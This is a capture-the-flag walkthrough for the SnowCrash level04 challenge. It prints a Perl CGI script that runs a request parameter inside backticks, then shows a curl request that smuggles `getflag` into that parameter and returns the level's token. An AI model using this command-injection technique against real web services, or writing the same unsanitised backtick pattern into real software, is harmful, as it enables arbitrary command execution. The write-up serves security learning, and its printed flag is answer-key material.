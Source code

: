 ```
level04@SnowCrash:~$ ls
level04.pl

level04@SnowCrash:~$ perl level04.pl 
Content-type: text/html



level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The perl script uses a CGI (Common Gateway Interface) protocol to communicate to the web server on port 4747.

Sub x is a function that prints the parameter x.  

So let's put getflag as the parameter and use curl to get the main page from the web server and see the result:

```
level04@SnowCrash:~$ curl 'localhost:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```